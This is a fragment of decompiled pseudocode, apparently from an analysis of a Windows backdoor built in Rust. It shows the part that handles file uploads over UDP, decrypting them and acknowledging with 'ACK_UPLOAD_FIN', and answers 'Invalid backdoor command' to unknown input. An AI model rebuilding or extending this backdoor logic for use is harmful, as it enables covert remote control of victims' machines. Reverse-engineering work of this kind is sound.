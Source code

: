 ```c
                  bytes_recv = (__int64)hObject[0];
LABEL_250:
                  v189 = v193;
                  v188 = v192;
                  CloseHandle((HANDLE)bytes_recv);
                  v189 = v193;
                  v188 = v192;
                  bytes_recv = u_decrypt_file(filename_with_size, filename_len, (int)&rbuf[32], 32, rbuf, 0x20ui64);
                  if ( !bytes_recv )
                  {
                    v189 = v193;
                    v188 = v192;
                    std::net::udp::UdpSocket::send::hc00b4ab8362b1a2d(wtf, &sock, "ACK_UPLOAD_FIN\r", 15i64);
                    if ( !wtf[0].zero )
                    {
                      if ( v192 )
                        j___rdl_dealloc(v193, 16 * v192, 8i64);
                      if ( v82 )
                        j___rdl_dealloc(v184, v82, (v82 & 0x8000000000000000ui64) == 0i64);
                      v3 = v183;
                      v4 = 6i64;
                      goto LABEL_37;
                    }
LABEL_279:
                    bytes_recv = wtf[0].nrecv;
                  }
                }
              }
LABEL_280:
              if ( v192 )
                j___rdl_dealloc(v193, 16 * v192, 8i64);
              if ( v82 ) {
                v139 = (v82 & 0x8000000000000000ui64) == 0i64;
                v138 = (__int64)v184;
                v137 = v82;
LABEL_284:
                j___rdl_dealloc(v138, v137, v139);
              }
              goto LABEL_285;
            }
          } else {
            v117 = 8i64;
            v116 = 0i64;
          }
          v193 = (char *)v117;
          v189 = (char *)v117;
          v192 = v116;
          v188 = v116;
          std::net::udp::UdpSocket::send::hc00b4ab8362b1a2d(
            wtf,
            &sock,
            "Invalid backdoor command\r\n",
            26i64);
            /* ... */  
  }
  closesocket(sock);
  return bytes_recv;
}
```
